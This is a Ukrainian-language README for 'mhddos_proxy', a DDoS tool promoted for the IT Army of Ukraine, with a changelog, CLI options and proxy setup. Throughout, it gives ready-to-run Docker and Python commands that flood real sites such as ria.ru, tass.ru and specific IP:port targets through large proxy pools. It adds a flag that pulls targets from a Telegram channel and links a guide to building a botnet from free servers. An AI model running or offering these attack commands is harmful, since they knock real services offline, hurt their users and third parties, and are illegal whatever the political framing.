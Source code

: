 ## DDoS Tool for IT Army of Ukraine 

- Вбудована база проксі для атаки з величезної кількості IP по всьому світу
- Можливість атаки багатьох цілей з автоматичним балансуванням навантаження
- Безліч різноманітних методів для атаки
- Ефективне використання ресурсів завдяки асихронній архітектурі

### ⏱ Останні оновлення
  
Оновлення версії для Windows | Mac | Linux | Android | Docker: https://telegra.ph/Onovlennya-mhddos-proxy-04-16  

- **18.05.2022**
  - Додано налаштування `--copies` для запуску декількох копій (рекомендовано до використання при наявності 4+ CPU та мережі > 100 Mb/s).

- **15.05.2022**
  - Повністю оновлена асинхронна версія, що забезпечує максимальну ефективність та мінімальне навантаження на систему
  - Ефективна робота зі значно більшими значеннями параметру `-t` (до 10k) без ризику "підвісити" усю машину
  - Абсолютно новий алгоритм розподілення навантаження між цілями з метою досягнення максимальної потужності атаки
  - Додано атаки `RGET`, `RHEAD`, `RHEX` та `STOMP`.

<details>
  <summary>📜 Раніше</summary>

- **23.04.2022** 
  - Змінено прапорець `--vpn` - тепер ваш IP/VPN використовується **разом** із проксі, а не замість. Щоб досягти попередньої поведінки, використайте `--vpn 100`
- **20.04.2022**
  - Значно покращене використання ресурсів системи для ефективної атаки
  - Додано параметр `--udp-threads` для контролю потужності UDP атак (за замовчуванням 1)
- **18.04.2022** 
  - В режимі `--debug` додано статистику "усього" по всіх цілях
  - Додано більше проксі
- **13.04.2022** 
  - Додано можливість відключати цілі та додавати коментарі у файлі конфігурації - тепер рядки що починаються на символ # ігноруються
  - Виправлено проблему повного зависання скрипта після тривалої роботи та інші помилки при зміні циклу
  - Виправлено відображення кольорів на Windows (без редагування реєстру)
  - Тепер у випадку недоступності усіх цілей скрипт буде очікувати, замість повної зупинки
- **09.04.2022** Нова система проксі - тепер кожен отримує ~200 проксі для атаки з загального пулу понад 10.000. Параметри `-p` (`--period`) та `--proxy-timeout` більше не використовуються
- **04.04.2022** Додано можливість використання власного списку проксі для атаки - [інструкція](#власні-проксі)
- **03.04.2022** Виправлена помилка Too many open files (дякую, @kobzar-darmogray та @euclid-catoptrics)
- **02.04.2022** Робочі потоки більше не перезапускаються на кожен цикл, а використовуються повторно. Також виправлена робота Ctrl-C
- **01.04.2022** Оновленно метод CFB у відповідності з MHDDoS.
- **31.03.2022** Додано надійні DNS сервери для резолвінгу цілі, замість системних. (1.1.1.1, 8.8.8.8 etc.)
- **29.03.2022** Додано підтримку локального файлу конфігурації (дуже дякую, @kobzar-darmogray).
- **28.03.2022** Додано табличний вивід `--table` (дуже дякую, @alexneo2003).
- **27.03.2022**
    - Дозволено запуск методів DBG, BOMB (дякую @drew-kun за PR) та KILLER для відповідності оригінальному MHDDoS.
- **26.03.2022**
    - Запуск усіх обраних атак, замість випадкового вибору
    - Зменшено використання RAM на великій кількості цілей - тепер на RAM впливає тільки параметр `-t`
    - Додане кешування DNS і корректна обробка проблем з резолвінгом
- **25.03.2022** Додано режим VPN замість проксі (прапорець `--vpn`)
- **25.03.2022** MHDDoS включено до складу репозиторію для більшого контролю над розробкою і захистом від неочікуваних
  змін
</details>

### 💽 Встановлення | Installation - [інструкції ТУТ](/docs/installation.md)

### 🕹 Запуск | Running (наведено різні варіанти цілей)

#### Docker (для Linux додавайте sudo на початку команди)

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

#### Python (якщо не працює - просто python або python3.10 замість python3)

    python3 runner.py https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

### 🛠 Налаштування (більше у розділі [CLI](#cli))

**Усі параметри можна комбінувати**, можна вказувати і до і після переліку цілей

Змінити навантаження - `-t XXXX` - максимальна кількість одночасно відкритих зʼєднань, за замовченням - 1000 (якщо на машині одне CPU) або 7500 (якщо більше одного).  

***Для Linux додавайте `sudo` на початку команди з docker***  

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy -t 3000 https://ria.ru https://tass.ru

Щоб переглянути інформацію про хід атаки, додайте прапорець `--table` для таблиці, `--debug` для тексту

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --table https://ria.ru https://tass.ru
    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --debug https://ria.ru https://tass.ru
    
Щоб атакувати цілі від https://t.me/itarmyofukraine2022 додайте параметр `--itarmy`  

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --table --itarmy

### 📌Автоматичний шукач нових проксі для mhddos_proxy
Сам скрипт та інструкції по встановленню тут: https://github.com/porthole-ascend-cinnamon/proxy_finder

### 🐳 Комьюніті
- [Детальний розбір mhddos_proxy та інструкції по встановленню](docs/installation.md)
- [Аналіз засобу mhddos_proxy](https://telegra.ph/Anal%D1%96z-zasobu-mhddos-proxy-04-01)
- [Приклад запуску через docker на OpenWRT](https://youtu.be/MlL6fuDcWlI)
- [Створення ботнету з 30+ безкоштовних та автономних(працюють навіть при вимкненому ПК) Linux-серверів](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c)
- [VPN](https://auto-ddos.notion.site/VPN-5e45e0aadccc449e83fea45d56385b54)

### CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-c URL]
                     [--table]
                     [--debug]
                     [--vpn]
                     [--rpc RPC] 
                     [--http-methods METHOD [METHOD ...]]
                     [--itarmy]
                     [--copies COPIES]

    positional arguments:
      targets                List of targets, separated by space
    
    optional arguments:
      -h, --help             show this help message and exit
      -c, --config URL|path  URL or local path to file with attack targets
      -t, --threads 2000     Total number of threads to run (default is CPU * 1000)
      --table                Print log as table
      --debug                Print log as text
      --vpn                  Use both my IP and proxies for the attack. Optionally, specify a percent of using my IP (default is 10%)
      --rpc 2000             How many requests to send on a single proxy connection (default is 2000)
      --proxies URL|path     URL or local path(ex. proxies.txt) to file with proxies to use
      --http-methods GET     List of HTTP(s) attack methods to use (default is GET + POST|STRESS).
      --itarmy               Attack targets from https://t.me/itarmyofukraine2022  
      --copies 1             Number of copies to run (default is 1)

### Власні проксі

#### Формат файлу:

    IP:PORT
    IP:PORT:username:password
    username:password@IP:PORT
    protocol://IP:PORT
    protocol://IP:PORT:username:password
    protocol://username:password@IP:PORT
де `protocol` може бути одним з 3-ох: http | socks4 | socks5, якщо `protocol`не вказувати, то буде обрано за замовчуванням - http  
наприклад для публічного проксі: protocol=socks4 IP=114.231.123.38 PORT=3065 формат буде таким:  
```shell
socks4://114.231.123.38:3065
```
а для приватного: protocol=socks4 IP=114.231.123.38 PORT=3065 username=isdfuser password=ashd1spass формат може бути одним з таких:  
```shell
socks4://114.231.123.38:3065:isdfuser:ashd1spass
socks4://isdfuser:ashd1spass@IP:PORT
```
  
**URL - Віддалений файл для Python та Docker**

    python3 runner.py https://tass.ru --proxies https://pastebin.com/raw/UkFWzLOt
    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://tass.ru --proxies https://pastebin.com/raw/UkFWzLOt
де https://pastebin.com/raw/UkFWzLOt - ваша веб-сторінка зі списком проксі (кожен проксі з нового рядка)  
  
**path - Для Python**  
  
Покладіть файл у папку з `runner.py` і додайте до команди наступний прапорець (замініть `proxies.txt` на ім'я свого файлу)

    python3 runner.py --proxies proxies.txt https://ria.ru

де `proxies.txt` - ваша ваш файл зі списком проксі (кожен проксі з нового рядка)
